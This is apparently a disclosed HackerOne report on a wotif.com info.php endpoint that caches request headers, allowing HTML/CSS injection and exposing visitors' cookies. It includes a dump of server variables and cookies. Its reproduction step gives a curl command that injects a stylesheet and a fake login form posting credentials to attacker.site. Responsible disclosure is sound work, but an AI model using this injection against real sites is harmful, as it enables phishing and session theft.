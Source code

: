 # https://www.wotif.com/vc/blog/info.php script is prone to reflected HTML/CSS injection and COOKIE leak

## Report Details
- **Report ID**: 1888351
- **URL**: https://hackerone.com/reports/1888351
- **State**: Closed
- **Severity**: low
- **Submitted**: 2023-02-27T14:09:45.666Z
- **Disclosed**: 2023-05-20T15:44:31.812Z

## Reporter
- **Username**: maskopatol
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: expediagroup_bbp

## Vulnerability Information
## Summary:
Hi,
I've found that https://www.wotif.com/vs/blog/info.php script is prone to reflected HTML/CSS injection and COOKIE leak. I don't know what is the purpose of that script, however looks like it caches for ~1h a last request over HTTP GET with all HTTP headers send by user + some headers send by Akamai. I'm not sure if there is any sensitive Akamai headers there (some headers reported by that scripts reveal a IP addresses from private network), but I'm sure that malicious actor may inject in that way some HTML/CSS code. As style and form are accepted so attacker probably could use that vulnerability for e.g. phising attack.
Fortunately - despite of many attempts I was unable to exploit this vulnerability as XSS - Akamai WAF protects that endpoint from XSS (at least as long as new bypass method is not found :))

Second problem with that script is related to HTTP_COOKIES header. As I mentioned before, this script caches all HTTP headers of visitor for ~1h, so if attacker convince the victim to visit that page, then victim cookies will be cached by script and visible to anybody who visit this script after victim.

Current response:
```
TEMP => /tmp
TMPDIR => /tmp
TMP => /tmp
PATH => /usr/local/bin:/usr/bin:/bin
HOSTNAME =>
USER => nginx
HOME => /var/lib/nginx
HTTP_X_DATADOG_SAMPLING_PRIORITY => 0
HTTP_X_DATADOG_PARENT_ID => 2356387789306272938
HTTP_X_DATADOG_TRACE_ID => 2570661382097469643
HTTP_CGP_AGENT_IDS_DUAID => 0c8072a3-7d9b-4be1-bbcf-d2acaaf8c627
HTTP_CTX_USER_TUID => -1
HTTP_CTX_USER_STATE => single-use
HTTP_CTX_SITE_CURRENCY => AUD
HTTP_CTX_SITE_EAPID => 0
HTTP_CTX_SITE_TPID => 70125
HTTP_CTX_SITE_LOCALE => en_AU
HTTP_CTX_SITE_ID => 70125
HTTP_CTX_PARTNER_ACCOUNT_ID => d34ca89e-4f80-4815-8057-b91672192b53
HTTP_CTX_PRIVACY =>
HTTP_CTX_AGENT_DEVICE_ID => 0c8072a3-7d9b-4be1-bbcf-d2acaaf8c627
HTTP_EDGE_AGENT_TRAITS_CLASSIFICATION => UnknownBot
HTTP_EDGE_AGENT_TRAITS_ALIGNMENT_SCORE => 0.0
HTTP_EDGE_AGENT_TRAITS_BOTNESS_SCORE => 1.0
HTTP_EDGE_AGENT_GEOLOCATION_INFO => {"latitude":50.27,"longitude":19.02,"countryCode":"PL","regionCode":"","city":"KATOWICE","continent":"EU","postalCode":"","timezone":"+01:00","metroCode":-1}
HTTP_EDGE_AGENT_DEVICE_INFO => {"brandName":"cURL","modelName":"cURL","isTablet":false,"isMobile":false,"resolutionHeight":600,"resolutionWidth":800,"physicalScreenHeight":400,"physicalScreenWidth":400,"type":"DESKTOP"}
HTTP_EDGE_AGENT_IP => 89.74.158.194
HTTP_X_EXPEDIA_TPID => 70125
HTTP_CGP_AGENT_GEOLOCATION_INFO => {"latitude":50.27,"longitude":19.02,"countryCode":"PL","regionCode":"","city":"KATOWICE","continent":"EU","postalCode":"","timezone":"+01:00","metroCode":-1}
HTTP_CGP_AGENT_TRAITS_BOTNESS_SCORE => 1.0
HTTP_CGP_AGENT_TRAITS_CLASSIFICATION => UnknownBot
HTTP_X_CGP_ENV => ewecgp-prod
HTTP_X_CGP_REGION => eu-west-1
HTTP_CGP_AGENT_DEVICE_ID => 0c8072a3-7d9b-4be1-bbcf-d2acaaf8c627
HTTP_CGP_AGENT_TRAITS_ALIGNMENT_SCORE => 0.0
HTTP_X_EXPEDIA_EAPID => 0
HTTP_X_EXPEDIA_SITE_ID => 70125
HTTP_CGP_ROUTE_APPLICATION => seo-vendor-content-wotif-blog
HTTP_X_CLOUD_GATE_DESTINATION_ID => seo-vendor-content-wotif-blog
HTTP_CGP_ROUTE_ENDPOINT => seo-vendor-content-blog
HTTP_X_BONO_CONFIDENCE => 100
HTTP_X_BONO_RULES_EXECUTED => -
HTTP_X_BONO_CLASSIFICATION => UnknownBot
HTTP_COOKIE => MC1=GUID=0c8072a37d9b4be1bbcfd2acaaf8c627; DUAID=0c8072a3-7d9b-4be1-bbcf-d2acaaf8c627; HMS=c7e5fe2f-8c58-4e65-b97a-5c9f8f7371a9
HTTP_DEVICE_USER_AGENT_ID => 0c8072a3-7d9b-4be1-bbcf-d2acaaf8c627
HTTP_X_B3_SAMPLED => 1
HTTP_X_B3_SPANID => bb92594475e89bbe
HTTP_X_B3_TRACEID => 1557eb34142c42509d22dfee3abe67b7
HTTP_MESSAGE_ID => 00000000-0000-0000-bb92-594475e89bbe
HTTP_TRACE_ID => 1557eb34-142c-4250-9d22-dfee3abe67b7
HTTP_X_CGP_INSTANCE => i-0f45203154581aa55
HTTP_X_FORWARDED_PROTO => https
HTTP_X_CGP_REQUEST_ID => 0838fecf-b682-11ed-a11c-0242edcb948b
HTTP_VIA => 1.1 v1-akamaitech.net(ghost) (AkamaiGHost), 1.1 akamai.net(ghost) (AkamaiGHost), 1.1 styx
HTTP_X_FORWARDED_HOST => www.wotif.com
HTTP_X_FORWARDED_PORT => 443
HTTP_X_AKAMAI_SR_HOP => 1
HTTP_X_AKAMAI_EDGESCAPE => georegion=175,country_code=PL,city=KATOWICE,lat=50.27,long=19.02,timezone=GMT+1,continent=EU,throughput=vhigh,bw=5000,network=upc,asnum=6830,location_id=0
HTTP_X_AKAMAI_DEVICE_CHARACTERISTICS => brand_name=cURL;device_os_version=;device_os=;is_mobile=false;is_tablet=false;is_wireless_device=false;mobile_browser=;mobile_browser_version=;model_name=cURL;physical_screen_height=400;physical_screen_width=400;resolution_width=800;resolution_height=600
HTTP_X_AKAMAI_CONFIG_LOG_DETAIL => true
HTTP_USER_AGENT => curl/7.74.0
HTTP_PRAGMA => no-cache
HTTP_HACKERONE => maskopatoltest
HTTP_CUSTOM => MaskoPatol
test

HTTP_CLIENT_IP => 89.74.158.194
HTTP_CACHE_CONTROL => no-cache, max-age=0
HTTP_AKAMAI_REPUTATION => ID=89.74.158.194;WEBATCK=2;WEBSCRP=8;SCANTL=4
HTTP_AKAMAI_ORIGIN_HOP => 2
HTTP_AKAMAI_BOT => Unknown Bot (curl_B63A5D77CF6DEE8E69E18C12900A172D):monitor:HTTP Libraries
HTTP_ACCEPT_ENCODING => gzip
HTTP_ACCEPT => text/html
HTTP_CONNECTION => close
HTTP_X_REAL_IP => 89.74.158.194
HTTP_X_FORWARDED_FOR => 89.74.158.194, 104.81.60.150, 2.20.70.4, 10.5.143.216, 89.74.158.194
HTTP_HOST => wotif-au.waveinteractive.com
REDIRECT_STATUS => 200
SERVER_NAME => 10.77.5.2
SERVER_PORT => 80
SERVER_ADDR => 10.77.5.2
REMOTE_PORT => 46004
REMOTE_ADDR => 10.77.5.4
SERVER_SOFTWARE => nginx/1.20.1
GATEWAY_INTERFACE => CGI/1.1
REQUEST_SCHEME => http
SERVER_PROTOCOL => HTTP/1.0
DOCUMENT_ROOT => /var/www/wotif
DOCUMENT_URI => /vc/blog/info.php
REQUEST_URI => /vc/blog/info.php
SCRIPT_NAME => /vc/blog/info.php
CONTENT_LENGTH =>
CONTENT_TYPE =>
REQUEST_METHOD => GET
QUERY_STRING =>
SCRIPT_FILENAME => /var/www/wotif/vc/blog/info.php
FCGI_ROLE => RESPONDER
PHP_SELF => /vc/blog/info.php
REQUEST_TIME_FLOAT => 1677490512.8018
REQUEST_TIME => 1677490512
```

## Steps To Reproduce:
A: To inject the external stylesheet and custom HTML form:
  1. As attacker send following request to add external stylesheet and custom form with two fields and button:
```curl -H "X-hackerone: maskopatol" -H 'A: <link href="https://attacker.site/styles.css" rel="stylesheet">' -H 'B: <div id="background"></div><form action="https://attacker.site/wotif.php"><input name="login"><input name="password"><input type="submit"></form>' 'https://www.wotif.com/vc/blog/info.php'```
 2. Due to some kind of caching, to keep it persist and reliable attacker have to send it circullary, for e.g. 2 minutes

B: To grab the victim cookies it is enough to convinced the victim to visit https://www.wotif.com/vs/blog/info.php page and make sure that nobody use it in last ~1h.

## Recommended Remediation Steps 
  1. Disable unnecessary scripts/endpoints.

## Impact

Normally reflected CSS injection may results in various side channel attacks, like revealing CSRF tokens or part of URLs, but not in that case, as info.php endpoints doesn't have such information

## Attachments
No attachments
